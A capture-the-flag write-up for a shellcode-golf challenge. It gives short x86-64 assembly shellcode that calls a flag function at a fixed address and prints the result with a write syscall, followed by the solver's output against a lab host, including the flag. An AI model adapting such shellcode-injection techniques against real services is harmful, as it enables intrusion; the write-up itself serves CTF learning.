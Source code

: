 # Solution

Use assembly to call the `flag` function - its location can be read by a debugger or disassembly since there is no PIE. The return address where the flag is located will be stored in `rax`. From this point on we can easily print the flag out with `write` syscall.

The shellcode is:
```assembly
;; first param RDI set to 1
mov dil, 1
;; address of flag function to EAX
mov eax, 0x401421
;; call flag(1)
call rax
;; write syscall prep stdout
mov edi, 1
;; address of _flag returned by flag(1)
mov rsi, rax
;; flag size 32 bytes
mov dl, 32
xor rax, rax
mov al, 1
;; write(1, _flag, 32)
syscall
```

Solution is in `golf-solution.py`.

```python
$ python3 golf-solution.py 
[+] Opening connection to 192.168.57.1 on port 9000: Done
b'Context - flag is at 0x401421, your shellcode goes to 0x7fb41e9a9000\n'
b'Your shellcode can be at most 27 bytes, go:'
[*] Switching to interactive mode
ibctf{w4t--are_U_t1g3r-w00dz?}
\x00[*] Got EOF while reading in interactive
$ 
```
